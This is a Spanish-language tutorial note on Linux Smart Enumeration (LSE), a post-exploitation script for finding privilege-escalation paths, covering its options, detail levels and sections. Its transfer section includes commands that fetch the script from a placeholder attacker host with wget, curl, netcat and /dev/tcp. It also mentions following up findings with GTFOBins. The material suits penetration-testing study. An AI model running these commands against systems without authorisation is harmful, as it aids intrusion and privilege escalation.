



# 🔍 LSE: Linux Smart Enumeration

> [!info] Herramienta de reconocimiento post-explotación
> **Linux Smart Enumeration (LSE)** es un script de enumeración para sistemas Linux diseñado para identificar vectores potenciales de escalada de privilegios y configuraciones débiles de seguridad.

---

## 📋 Tabla de Contenidos
- [Introducción](#introducción)
- [Instalación y Obtención](#instalación-y-obtención)
- [Uso Básico](#uso-básico)
- [Niveles de Detalle](#niveles-de-detalle)
- [Parámetros y Opciones](#parámetros-y-opciones)
- [Ejemplos Prácticos](#ejemplos-prácticos)
- [Tips y Buenas Prácticas](#tips-y-buenas-prácticas)
- [Comparativa con otras herramientas](#comparativa-con-otras-herramientas)

---

## 📝 Introducción

### ¿Qué es LSE?

LSE (Linux Smart Enumeration) es un script de bash ligero y potente diseñado para realizar una enumeración exhaustiva de sistemas Linux. Fue creado por Diego Blanco (@diego-treitos) como una alternativa a otras herramientas de enumeración, con un enfoque en la identificación inteligente de vectores de escalada de privilegios.

### ¿Para qué sirve?

- Identificar vectores potenciales de escalada de privilegios
- Detectar configuraciones erróneas de seguridad
- Enumerar información del sistema de manera estructurada
- Encontrar archivos con permisos débiles
- Detectar servicios vulnerables
- Analizar credenciales almacenadas inseguramente

### Contextos de uso



> [!note] Filosofía de la herramienta
> A diferencia de otras herramientas de enumeración, LSE está diseñado para ser **inteligente** en sus búsquedas, mostrando resultados categorizados por niveles de relevancia y utilizando colores para facilitar la identificación de hallazgos importantes.

---

## 💾 Instalación y Obtención

### Repositorio oficial
LSE está disponible en GitHub: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

### Métodos de obtención

```bash
# Descargar directamente usando wget
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh

# Alternativa con curl
curl -s https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh -o lse.sh

# Dar permisos de ejecución
chmod +x lse.sh
```

### Transferencia a sistemas objetivo

> [!tip] Técnicas de transferencia
> Cuando el sistema objetivo no tiene acceso a Internet:

**Desde máquina atacante:**
```bash
# Servir el archivo con un servidor web simple
python3 -m http.server 8000

# Alternativamente, usar Netcat
nc -nlvp 8000 < lse.sh
```

**En la máquina objetivo:**
```bash
# Descargar usando wget/curl
wget http://IP-ATACANTE:8000/lse.sh

# Alternativa con curl
curl http://IP-ATACANTE:8000/lse.sh -o lse.sh

# Usando Netcat
cat < /dev/tcp/IP-ATACANTE/8000 > lse.sh
```

---

## 🔧 Uso Básico

### Sintaxis general

```bash
./lse.sh [opciones]
```

### Ejecución simple

```bash
# Ejecutar con nivel de detalle por defecto (nivel 0)
./lse.sh

# Ejecutar sin colores (útil para redirigir salida)
./lse.sh -c
```

### Salida típica

La salida de LSE está organizada en secciones:

1. **Información del sistema**: Usuario, kernel, distribución
2. **Usuarios y grupos**: Información de usuarios, grupos, sudoers
3. **Configuración del sistema**: Parámetros de seguridad, configuración de red
4. **Servicios**: Servicios en ejecución, trabajos cron
5. **Procesos**: Procesos en ejecución, comandos interesantes
6. **Archivos y directorios**: Permisos, SUID/SGID, archivos interesantes

> [!example] Ejemplo de salida
> ```
> LSE Version: 4.0
> 
> [*] SYSTEM ........................................................
> [+] su version: 1.8.4
> [+] Path: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> [+] Hostname: target-machine
> 
> [*] USERS .........................................................
> [+] Current user: www-data
> [+] Current user groups: www-data
> 
> [!] Users with console: 
> root:x:0:0:root:/root:/bin/bash
> user:x:1000:1000:User:/home/user:/bin/bash
> ...
> ```

---

## 🎯 Niveles de Detalle

Una de las características más potentes de LSE es su capacidad para ejecutarse con diferentes niveles de detalle.

| Nivel | Propósito | Uso típico |
|-------|-----------|------------|
| 0 (por defecto) | Verificaciones básicas | Enumeración rápida inicial |
| 1 | Verificaciones estándar | Búsqueda general de vectores comunes |
| 2 | Verificaciones exhaustivas | Búsqueda profunda de todos los vectores posibles |

### Configuración de nivel

```bash
# Nivel 0 (por defecto)
./lse.sh

# Nivel 1 (más detallado)
./lse.sh -l 1

# Nivel 2 (máximo detalle)
./lse.sh -l 2
```



> [!tip] Estrategia recomendada
> Comienza con nivel 0 para obtener una visión general rápida, luego aumenta a nivel 1 o 2 si necesitas una enumeración más profunda o si no encuentras vectores obvios con el nivel básico.

---

## ⚙️ Parámetros y Opciones

### Opciones principales

| Opción | Descripción | Ejemplo |
|--------|-------------|---------|
| `-c` | No usar colores en la salida | `./lse.sh -c` |
| `-i` | Interactivo (pregunta antes de ejecutar cada verificación) | `./lse.sh -i` |
| `-l [0-2]` | Nivel de detalle (0:básico, 1:estándar, 2:exhaustivo) | `./lse.sh -l 2` |
| `-h` | Mostrar ayuda | `./lse.sh -h` |
| `-s [sección]` | Solo ejecutar verificaciones de una sección específica | `./lse.sh -s usr` |
| `-p [tests]` | Solo ejecutar tests específicos (separados por coma) | `./lse.sh -p usr000,usr010` |
| `-o [fichero]` | Guardar salida en un fichero | `./lse.sh -o resultado.txt` |
| `-f` | Ver todos los tests, no solo los que coinciden con el nivel | `./lse.sh -f` |

### Secciones disponibles

| Sección | Descripción | Ejemplo |
|---------|-------------|---------|
| `usr` | Información de usuarios | `./lse.sh -s usr` |
| `sys` | Información del sistema | `./lse.sh -s sys` |
| `sec` | Configuraciones de seguridad | `./lse.sh -s sec` |
| `net` | Configuración de red | `./lse.sh -s net` |
| `srv` | Servicios | `./lse.sh -s srv` |
| `pro` | Procesos | `./lse.sh -s pro` |
| `sof` | Software instalado | `./lse.sh -s sof` |
| `ctn` | Contenedores | `./lse.sh -s ctn` |
| `tim` | Tareas programadas | `./lse.sh -s tim` |
| `fil` | Archivos interesantes | `./lse.sh -s fil` |

> [!note] Combinación de opciones
> Puedes combinar varias opciones: `./lse.sh -l 2 -s fil -c`

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Búsqueda rápida de vectores de escalada comunes

```bash
# Ejecución básica para identificar vectores obvios
./lse.sh
```

> [!info] Explicación
> Este comando ejecuta LSE con el nivel de detalle predeterminado (0) buscando configuraciones inseguras comunes. Es útil para:
> - Obtener una visión general rápida del sistema
> - Identificar vectores de escalada de privilegios obvios
> - Orientar investigaciones más detalladas
>
> Incluso con el nivel básico, LSE puede detectar:
> - Binarios SUID comunes
> - Archivos con permisos débiles 
> - Tareas cron mal configuradas
> - Configuraciones de sudo explotables

### Ejemplo 2: Análisis profundo de archivos sensibles

```bash
# Ejecutar análisis exhaustivo de archivos y permisos
./lse.sh -l 2 -s fil -o resultados_archivos.txt
```

> [!info] Explicación
> Este comando realiza un análisis detallado de la sección de archivos con nivel máximo:
> 1. `-l 2`: Establece nivel máximo de detalle
> 2. `-s fil`: Se enfoca solo en la sección de archivos
> 3. `-o resultados_archivos.txt`: Guarda los resultados en un archivo
>
> Este enfoque es útil cuando:
> - Sospechas de permisos incorrectos
> - Buscas archivos SUID/SGID
> - Necesitas encontrar archivos de configuración modificables
> - Quieres identificar archivos con información sensible

### Ejemplo 3: Búsqueda de problemas en servicios y tareas programadas

```bash
# Analizar servicios y tareas programadas
./lse.sh -l 1 -s srv,tim -c
```

> [!info] Explicación
> Este comando se centra en la búsqueda de vectores relacionados con servicios y tareas programadas:
> 1. `-l 1`: Nivel medio de detalle
> 2. `-s srv,tim`: Solo secciones de servicios y tareas programadas
> 3. `-c`: Sin colores (útil para procesamiento posterior)
>
> Detectará:
> - Servicios mal configurados
> - Tareas cron con permisos débiles
> - Scripts ejecutados como root que son modificables
> - Trabajos programados con rutas relativas o writables

### Ejemplo 4: Enfoque en usuarios y permisos de sudo

```bash
# Verificar configuraciones de usuario y sudo
./lse.sh -l 2 -s usr -p usr020,usr030,usr040
```

> [!info] Explicación
> Este comando se especializa en analizar configuraciones de usuario:
> 1. `-l 2`: Nivel máximo de detalle
> 2. `-s usr`: Solo sección de usuarios
> 3. `-p usr020,usr030,usr040`: Enfoque en tests específicos relacionados con sudo
>
> Ideal para:
> - Revisar configuraciones de sudo
> - Identificar permisos excesivos
> - Encontrar comandos que pueden ser explotados
> - Detectar problemas en archivos sudoers

---

## 💡 Tips y Buenas Prácticas

### Optimización del uso



> [!tip] Consejos para maximizar eficiencia
> - **Ejecuta primero con nivel 0** para identificar vectores obvios
> - **Enfócate en secciones específicas** relevantes para tu escenario
> - **Guarda siempre la salida** para análisis posterior
> - **Filtra resultados** para enfocarte en lo importante: `grep "WARNING\|ALERT" resultados.txt`
> - **Analiza los hallazgos** antes de intentar explotar (evita técnicas ruidosas)
> - **Combina con herramientas manuales** para verificar los hallazgos

### Errores comunes y soluciones

| Error | Problema | Solución |
|-------|----------|----------|
| `Permission denied` | Falta de permisos de ejecución | `chmod +x lse.sh` |
| `./lse.sh: line 1: syntax error near unexpected token` | Problemas con finales de línea (Windows) | `dos2unix lse.sh` |
| Resultados incompletos | Sistema altamente restrictivo | Prueba ejecutar módulos individualmente |
| Falsos positivos | LSE detecta configuraciones que no son explotables | Verifica manualmente los hallazgos |
| Demasiada información | Difícil identificar vectores útiles | Usa nivel menor o filtra por secciones |
| Problemas de visualización | Problemas con colores en terminales específicas | Usa `-c` para desactivar colores |

### Integración con otras herramientas

```bash
# Combinar con LinPEAS para verificación cruzada
./lse.sh -l 1 -o lse_results.txt
./linpeas.sh > linpeas_results.txt

# Filtrar resultados importantes
grep -E "WARNING|ALERT|CRITICAL" lse_results.txt > lse_important.txt

# Combinar con búsqueda manual de binarios SUID
./lse.sh -l 1 -s fil
find / -perm -4000 -type f 2>/dev/null
```

---

## 📊 Comparativa con otras herramientas

| Herramienta | Ventajas | Desventajas | Mejor para |
|-------------|----------|-------------|------------|
| **LSE** | Ligero, organizado por niveles, salida colorizada | Menos exhaustivo que LinPEAS | Enumeración inicial, sistemas con recursos limitados |
| **LinPEAS** | Muy exhaustivo, detecta más vulnerabilidades | Más pesado, salida más desordenada | Enumeración profunda, análisis completo |
| **LinEnum** | Simple, bien establecido | Menos actualizado, sin niveles | Enumeración básica, scripts propios |
| **linux-exploit-suggester** | Enfocado en vulnerabilidades de kernel | Solo kernel, no analiza configuraciones | Identificar vulnerabilidades específicas |
| **pspy** | Monitoreo de procesos en tiempo real | Solo procesos, no enumeración general | Análisis de tareas programadas y procesos |

> [!success] Cuándo elegir LSE
> - Cuando necesites una herramienta **ligera y rápida**
> - Cuando quieras **resultados organizados por relevancia**
> - En sistemas con **recursos limitados**
> - Para una **primera pasada** de enumeración antes de profundizar
> - Cuando necesites **filtrar resultados por secciones**

---

## 🔍 Resumen de verificaciones principales

LSE realiza numerosas verificaciones, entre las más útiles:

- **Binarios SUID/SGID** que pueden ser explotados
- **Archivos con permisos débiles** en directorios sensibles
- **Configuraciones de sudo** explotables
- **Tareas cron** con scripts modificables
- **Servicios** corriendo como root con configuraciones inseguras
- **Archivos de configuración** modificables
- **Credenciales almacenadas** en archivos de texto/configuración
- **Capacidades** de binarios que pueden ser abusadas
- **Configuraciones de kernel** inseguras
- **Montajes** con opciones inseguras

> [!warning] Recuerda
> LSE es una herramienta de **enumeración**, no de explotación. Su objetivo es identificar vectores potenciales que luego deberás verificar y explotar manualmente.

---

## 🔗 Referencias y recursos adicionales

- [Repositorio oficial de LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [GTFOBins](https://gtfobins.github.io/) - Para explotar binarios identificados por LSE
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [PayloadsAllTheThings - Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)